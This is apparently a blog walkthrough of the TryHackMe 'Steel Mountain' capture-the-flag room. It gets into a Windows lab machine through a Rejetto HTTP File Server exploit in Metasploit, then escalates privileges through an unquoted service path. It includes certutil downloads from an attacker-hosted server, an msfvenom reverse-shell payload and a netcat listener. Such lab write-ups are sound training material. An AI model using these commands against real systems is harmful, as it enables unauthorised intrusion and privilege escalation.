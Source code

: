 ```yaml
---
title: "Steel Mountain"
datePublished: Fri Aug 04 2023 01:48:21 GMT+0000 (Coordinated Universal Time)
cuid: clkvxfn7l000409mgdiuw5j7o
slug: steel-mountain
cover: https://cdn.hashnode.com/res/hashnode/image/upload/v1691631388854/ef6dc52d-c862-4a1e-8a9e-ed0ee93fe8b3.png
tags: ctf, 2articles1week, cybersecurity-1, tryhackme, ctf-writeup

---
```


This walkthrough will go over the [Steel Mountain](https://tryhackme.com/room/steelmountain) CTF found on [TryHackMe](https://tryhackme.com). This room is designed to test our Windows OS enumeration skills. We will use Metasploit to gain an initial foothold and then use PowerShell to enumerate the machine and escalate our privileges to Administrator.

### Step 1: Nmap

Note: ICMP is disabled, so we'll have to use the `-Pn` flag.

```bash
nmap -Pn -p- 10.10.0.5 -vvv
```

```plaintext
PORT      STATE SERVICE       REASON
80/tcp    open  http          syn-ack ttl 125
135/tcp   open  msrpc         syn-ack ttl 125
139/tcp   open  netbios-ssn   syn-ack ttl 125
445/tcp   open  microsoft-ds  syn-ack ttl 125
3389/tcp  open  ms-wbt-server syn-ack ttl 125
5985/tcp  open  wsman         syn-ack ttl 125
8080/tcp  open  http-proxy    syn-ack ttl 125
47001/tcp open  winrm         syn-ack ttl 125
49152/tcp open  unknown       syn-ack ttl 125
49153/tcp open  unknown       syn-ack ttl 125
49154/tcp open  unknown       syn-ack ttl 125
49155/tcp open  unknown       syn-ack ttl 125
49156/tcp open  unknown       syn-ack ttl 125
49169/tcp open  unknown       syn-ack ttl 125
49170/tcp open  unknown       syn-ack ttl 125
```

From this scan, we can tell that there are two web servers, one of which will be our attack vector to get an initial foothold. Visiting the site on port 80 reveals nothing more than a static page for an employee of the month. Looking at the source code helps us identify a name, *Bill Harper*.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691113410117/78e26866-6de1-4595-be30-97a365a1f41d.png align="center")

Moving on over to port 8080 proves to be a little more useful. Right off the bat, we can tell this is a user panel to an HTTP File Server.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691113421551/bc9e5d0c-c6e1-4afa-b566-06f0457b7432.png align="center")

Looking at the source code helps us narrow it down to a `Rejetto HTTP File Server`. This is great news because this version is vulnerable to an RCE and Metasploit has a module for it called `rejetto_hfs_exec`.

### Step 2: Metasploit

From here we want to search for the `rejetto` module and configure the options.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691113447324/e218eed9-4f8a-4eba-9d05-7524c6b5065a.png align="center")

After properly configuring the module and typing `exploit`, we get a meterpreter session and pop a shell to grab our first flag located in `C:\Users\bill\Deskto`p. Use `type user.txt` to view it from the command line.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691113460353/562ce6d7-e56d-4eac-a48b-91d53837ca0b.jpeg align="center")

### Step 3: Privilege Escalation

To enumerate this machine, we will use `winPEAS`. You can download the latest version [here](https://github.com/carlospolop/PEASS-ng/releases/latest/download/winPEASany_ofs.exe).

Start a Python server:

```bash
python3 -m http.server 8000
```

Upload `winPEAS` to the victims `C:\Users\bill\Desktop` directory using `certutil.exe`.

```bash
certutil.exe -urlcache -f http://10.13.28.215:8000/winPEASany_ofs.exe winPEASany_ofs.exe
```

Run it by typing `winPEASany_ofs.exe` .

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691113544053/f7884b90-58a2-4667-8890-5edb05a79ea5.png align="center")

An interesting service called `AdvancedSystemCareService9` is missing quotes and has a space in between the application name, which means we can escape it and run a program called "`Advanced.exe`" with a reverse shell.

Let's fire up `msfvenom` and generate a payload.

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.13.28.215 LPORT=1337 -f exe -o Advanced.exe
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691113567782/e5c99dee-d106-4144-97c9-93556990079a.png align="center")

Startup a Python server and transfer the payload over using `certutil`.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691113578290/4def3399-0d65-4e33-b741-97c14bfa9e6a.png align="center")

Move it to "`C:\Program Files (x86)\IObit\"`, and be sure to put the file path in quotes due to the space.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691113586235/85a1fdb6-3607-409b-a1ec-f298d39db15e.png align="center")

Now we want to stop the `AdvancedSystemCareService9` service.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691113596097/f50abfb1-56d2-4a7e-9f8d-4c63d9d49cfa.png align="center")

Start a netcat listener to catch the reverse shell.

```bash
nc -lvnp 1337
```

Start the `AdvancedSystemCareService9` service back up.

### Step 4: Root

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691113623575/0623872a-2d25-4ac6-9184-30c48c6e7d1a.png align="center")

Pwned! From here we can grab the last flag found in `C:\Users\Administrator\Desktop`.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691113632364/117dcb66-121f-481e-88b2-32df16cf5710.jpeg align="center")

I hope you enjoyed this walkthrough of the [Steel Mountain](https://tryhackme.com/room/steelmountain) CTF found on [TryHackMe](https://tryhackme.com). Happy Hacking.